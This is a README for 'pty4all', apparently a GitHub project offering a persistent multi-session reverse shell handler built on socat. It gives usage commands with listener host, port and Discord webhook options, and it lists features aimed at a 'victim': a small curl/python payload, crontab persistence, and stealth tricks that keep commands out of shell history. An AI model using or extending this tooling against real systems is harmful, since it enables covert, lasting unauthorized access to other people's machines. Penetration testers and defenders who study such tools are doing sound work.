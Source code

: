 # pty4all

Hey mate, are you:

- Tired of shitty reverse shell?
- Tired of hittinc ^C and loosing your shell?
- Tired of overcomplicated C2?
- In need of a real pty with auto completion and signals?
- In need of a minimalistic payload that spawns a shell?
- In need of easy-peasy persistancy?

Say no more, `pty4all` got you all covered!

By using its cutting edge technology (lolnope), you can now have a persistent multi reverse pty handler!

![This is an image](meme.png)


# Usage

```bash
./socat-multi-handler.sh
# Usage : ./socat-multi-handler.sh --lhost <LHOST> --lport <LPORT> --webport <WEBPORT> [--dnotify <WEBHOOK> ] [--persist]
# Demo 1: ./socat-multi-handler.sh --lhost X.X.X.X --lport 443 --webport 80
# Demo 2: ./socat-multi-handler.sh --lhost X.X.X.X --lport 443 --webport 80 --dnotify https://discord.com/api/webhooks/XXXX/YYYY --persist
```


# Demo

https://www.youtube.com/watch?v=TTEGIhvu7eQ
[![demo pty4all](demo.png)](https://www.youtube.com/watch?v=TTEGIhvu7eQ)


# Features

- Fully interactive pty (socat)
- Persistent handler on host (tmux)
- Fully encrypted (self signed https)
- Minimalistic payload (python, curl)
- Persistency on victim (pgrep, crontab)
- Stealth-ish (crontab trick & space before commands to prevent history)
- Push notification (Discord webhook)


# Requirements

- Target must be x64 unix-based with curl installed
- Host must have socat, tmux, python, openssl, and curl installed: `sudo apt update && sudo apt install -y socat tmux curl python openssl`
